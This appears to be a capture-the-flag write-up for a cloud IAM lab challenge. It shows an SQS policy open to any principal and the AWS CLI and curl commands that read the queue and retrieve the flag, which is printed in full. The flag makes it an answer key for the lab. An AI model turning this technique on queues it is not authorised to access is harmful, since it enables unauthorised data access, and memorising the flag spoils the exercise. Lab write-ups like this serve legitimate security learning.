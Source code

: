 # Challenge 2

**Challenge 2:** https://bigiamchallenge.com/challenge/2

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/beef06fb-0903-4808-91a6-829c4fa1a139)

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/326502b7-6a9d-4206-b52b-fc598605de8d)

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/9ce14f58-323c-48c0-a65b-0ebc88518419)

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/083e789c-4805-409f-b46b-4b14f6cf2bac)

```sh
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": [
                "sqs:SendMessage",
                "sqs:ReceiveMessage"
            ],
            "Resource": "arn:aws:sqs:us-east-1:092297851374:wiz-tbic-analytics-sqs-queue-ca7a1b2"
        }
    ]
}
```

````sh
> aws sqs receive-message --queue-url https://sqs.us-east-1.amazonaws.com/092297851374/wiz-tbic-analytics-sqs-queue-ca7a1b2
{
    "Messages": [
        {
            "MessageId": "3e1288a5-cfd9-4218-96a4-edbc78448437",
            "ReceiptHandle": "AQEBWLtE6oNYluaPOmx7nTE8JACXjifNyEuikYU1ZpGho+4HxPgjjzt5dkQe2bMLKF5MRGgAL4XOfNDtL+FahoWZkAVbRwmiJgYUem6sbotuEjqgXbcRXHzegysxaEu14cNpY5Nhcc9p2Em+rkR+zo8sIPWjie
cmXgaac8O0P/GtkJVXzid1ERMM++KbBMtU/jnX/I5WwyhvzxuEobErzstqiFOSLrilxsfUfjuEVdUjR/eb7GRR9rkSEcnZKYfOHa98GH5gwdG2R0nVgT9N9dlhKxXdXvijW4YR0YPRdu3HSjgxV3FCBX1L2C8nG2NlIabMoTPh1VDgMoQcC63/OPhGTH
8Y/PaeRdEt/bafE1+wW5fSeDj80TPqjWgU2BX/faN8kJ9hfTKytT5lgUy+Uax9+qwjPlD2I+3eDFQohL/PhU8=",
            "MD5OfBody": "4cb94e2bb71dbd5de6372f7eaea5c3fd",
            "Body": "{\"URL\": \"https://tbic-wiz-analytics-bucket-b44867f.s3.amazonaws.com/pAXCWLa6ql.html\", \"User-Agent\": \"Lynx/2.5329.3258dev.35046 libwww-FM/2.14 SSL-MM/1.4.3714\",
 \"IsAdmin\": true}"
        }
    ]
}
> curl https://tbic-wiz-analytics-bucket-b44867f.s3.amazonaws.com/pAXCWLa6ql.html
{wiz:you-are-at-the-front-of-the-queue}
```
